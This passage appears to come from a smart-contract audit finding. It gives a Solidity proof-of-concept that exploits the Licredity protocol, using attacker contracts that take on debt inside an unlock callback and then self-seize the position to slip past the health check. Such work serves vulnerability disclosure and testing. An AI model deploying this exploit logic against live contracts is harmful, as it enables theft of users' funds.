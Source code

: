 ```solidity
    AttackerRouter attackerRouter = new AttackerRouter(licredity, token, seizer);

    // attack commences
    attackerRouter.depositFungible(0.5 ether);
}
```
And add these two contracts used:
```solidity
contract AttackerRouter {
    using StateLibrary for Licredity;
    using ShareMath for uint128;

    Licredity public licredity;
    BaseERC20Mock public token;
    AttackerSeizer public seizer;

    constructor(Licredity _licredity, BaseERC20Mock _token, AttackerSeizer _seizer) {
        licredity = _licredity;
        token = _token;
        seizer = _seizer;
    }

    function depositFungible(uint256 amount) external {
        // 1. add some collateral to the position
        //    so that it can become healthy after seize
        uint256 positionId = licredity.open();
        licredity.stageFungible(Fungible.wrap(address(token)));
        token.mint(address(licredity), amount);
        licredity.depositFungible(positionId);

        // 2. call unlock to take on debt and seize
        licredity.unlock(abi.encode(positionId));
        // 5. as `unlock` doesn't revert, the position has become healthy
    }

    function unlockCallback(bytes calldata data) public returns (bytes memory) {
        uint256 positionId = abi.decode(data, (uint256));

        // 3. increase debt share to make the position unhealthy
        uint128 borrowAmount = 1 ether;
        (uint256 totalShares, uint256 totalAssets) = licredity.getTotalDebt();
        uint256 delta = borrowAmount.toShares(totalAssets, totalShares);
        licredity.increaseDebtShare(positionId, delta, address(this));

        // 4. use the separate seizer contract to seize the position
        //    making it healthy again.
        seizer.seize(positionId);

        return new bytes(0);
    }
}

contract AttackerSeizer {
    Licredity public licredity;

    constructor(Licredity _licredity) {
        licredity = _licredity;
    }

    function seize(uint256 positionId) external {
        licredity.seize(positionId, msg.sender);
    }
}
```